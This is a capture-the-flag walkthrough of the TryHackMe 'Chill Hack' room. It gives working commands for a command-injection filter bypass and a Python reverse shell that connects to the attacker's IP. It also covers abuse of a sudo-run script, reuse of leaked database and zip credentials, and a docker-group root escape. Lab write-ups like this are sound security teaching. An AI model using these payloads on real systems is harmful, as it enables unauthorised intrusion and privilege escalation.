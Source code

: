 # Try_Hack_Me Chill Hack room

### Initial port scan
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/Screenshot_2022-02-21_13-35-27.png)
------------
### Looking at FTP
- FTP is open, so looks quickly have a look before i begin diving into the webserver on port 80
- `ftP <ip>`   When proompted the credentials are: anonymous:anonymous
- So theres one file there called "note.txt". To download locally we use `mget note.txt`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/note.png)
- So not sure where this comes into play yet, but looks like were going to need to bypass some filtering
--------
### Moving onto webserver on port 80
- Before/while i start bruteforcing directories, ill visit the webpage to see what im working with.
- While Bruteforcing directories i found '/secret' webpage..so this looks interesting.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/secret.png)
- On the 'secret' webpage had a user input field which looks like its processing commands.
- `ls`, `which` would not work (It displayed "are you a hacker?") so thats one thing that was being filtered, but `id` did work.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/id.png)
--------
### Trying to get a reverse shell
- A lot of what i tried was filtered: python, nc, perl, bash...
- So i searched online to find command injection bypasses. I came across this really great github page for bypassing command injection filters. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
- I then tried `l's'` to see if i can bypass the filter.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/ls.png)
- WOOOO SUCCESS!, was able to execute it.
- I tried the bypass with the "which" command to see what binaries i can use to get a reverse shell but wierdly it wouldnt work? not sure why, luckily i found a workaround using echo and command expansion.
- `echo $(ls /usr/bin | grep python)` I tried to see if python was available first, and theres "python3" available
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/python.png)
--------
- Alright lets try a python reverse shell now. You can easily search python reverse shells online, ill be using one from https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell (MAKE SURE TO ADD IN THE QUOTES! p'y'thon to bypass the filter)
- `p'y'thon3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.100.95",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- WOOO!, we have a shell on the machine. But we dont have a stable shell, so lets stablize it.
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`, after typing in this command we can see the users name is displayed now.
- Now press "Ctrl+Z"--this will background your shell
- Now type "stty raw -echo"
- your screen will look like its frozen at this point, just type "fg" and hit enter

-------------
- Once i get a shell, first thing i usually do is check kernal versions, sudo privileges of user, and insecure binary files/shell scripts.
- Looking at sudo priliges `sudo -l`,  www-data is allowed to run a script as apaar.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/sudo-l.png)

- Looking at the bash script, it asks for two user inputs, $person and $msg
- The first variable $person just displays it in a string, but the 2nd variable $msg gets executed in bash. Since the script gets executed as apaar we can try to maintain privileges.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/sudo-l.png)
--------
- To execute the script as another user using sudo:  `sudo -u apaar /home/apaar/.helpline.sh` (Note! you need to use the path specified in "sudo -l" which is /home/apaar/.helpline.sh)
- When it prompts me for the 2nd variable, i use `/bin/bash`. This command will get executed in the script which will give me a bash shell as the user apaar
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/apaar.png)

- Ill stabalize the shell again just like we did before with `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Theres one file in apaar's home directory, and it is the user flag!
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/userflag.png)
---------
### Trying to find Root flag now
- I tried to see what i can run with apaar `sudo -l`....but doesnt look like anything, its the same script
- I also tried seeing if there were other scripts "aurick" owned that apaar might be able to run `find / -user aurick -iname *.sh 2>/dev/null`
- Bash histroy was also empty, and also checked binaries to see if any were exploitable..so far no luck.
- Decdied to look at the webserver files

- Inside the /var/www theres a directory called "files" that had a few php files. Looking at each file one by one, theres one that had the database creds that was not properly secured. 
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/database.png)
----------
- Accessing mysql database locally `mysql -u root -p`. After if will prompt you for a password "!@m+her00+@db"
- Now to enumerate the database manually
- `show databases;` -had a webportal database which looked interesting. `use webportal`
- `show tables;` -had only one table 'users'
- `SELECT * FROM users;` -dumped all the data
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/creds.png)

- I tried to switch users and nothing.....AHHHHHHHfgsgsf, it was a rabbit hole.
- Alright back to searching in the webserver folder again. 

---------
- After digger deeper in the webserver again, inside the hacker.php file in the directory "/var/www/files" there was a message "look in the dark! you will find your answer" with an image associated. Had a feeling something was embedded in the image, from past boxes on THM i know they love to hide stuff inside images.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/sneaky.png)
- Downloaded the file which is inisde "/var/www/files/images/hacker-with-laptop_23-2147985341.jpg"
- Start a listener `nc -lnvp > image.png` now send the file over on victim   `nc 10.9.100.95 5000 < hacker-with-laptop_23-2147985341.jpg`
- use steghide to attempt to extract the data `steghide extract -sf image.png`
- Alright great!, it created a "backup.zip" file, when we try to unzip it keeps asking for a password, so we can crack this with john
--------
- Cracking the zip file, John was giving me issues with the formating so i had to force the format. When you run john on the hashed file john will attempt to identify it. Then you can force the format after that.
- `john --format=pkzip  backupzip_hash -wordlist:/usr/share/wordlists/rockyou.txt`
- As we can see from the screenshot the password is "pass1word" 
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/zipcrack.png)!d0ntKn0wmYp@ssw0rd
- After unziping and entering in the password it created a source_code.php file. 
- Cating the file i immediately saw a password that was in base64, with a string below it that says "welcome anurodh" so this has to be his password
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/pass.png)
- Decoding it i got "!d0ntKn0wmYp@ssw0rd"
---------
- Back on my victim machine i tried to switch users `su anurodh` with using the same password. And it WORKED!
- Alright enumerating this user now. I tried sudo -l but nothing i could use. I looked at the group the user belonged to, and he was part of a docker group. From prior boxes i know theres a priv esc for this. I want to the GTFObins website and tried using a shell escape.
- `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
- FInally! GOT ROOT.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/root.png)



